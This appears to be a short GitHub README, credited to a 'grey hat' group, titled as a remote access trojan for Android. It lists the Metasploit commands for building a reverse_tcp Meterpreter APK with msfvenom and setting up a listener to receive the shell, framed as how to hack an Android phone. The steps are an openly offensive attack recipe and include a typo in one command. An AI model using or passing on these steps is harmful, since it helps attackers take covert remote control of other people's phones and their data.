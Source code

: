 # kali_metasploit_rat_for_androd
Collected From Bd Grey Hat Hackers

How to hack android phone using Metasploit.
Commands - 

apt install metasploit-framework

1. msfvenom -p android/meterpreter/reverse_tcp LHOST="Your Ip" LPORT+4444 R > main.apk

2. msfconsole

3. use multi/handler

4. set payload android/meterpreter/reverse_tcp

5. set lhost "your IP"
6. set lport 4444

7. exploit
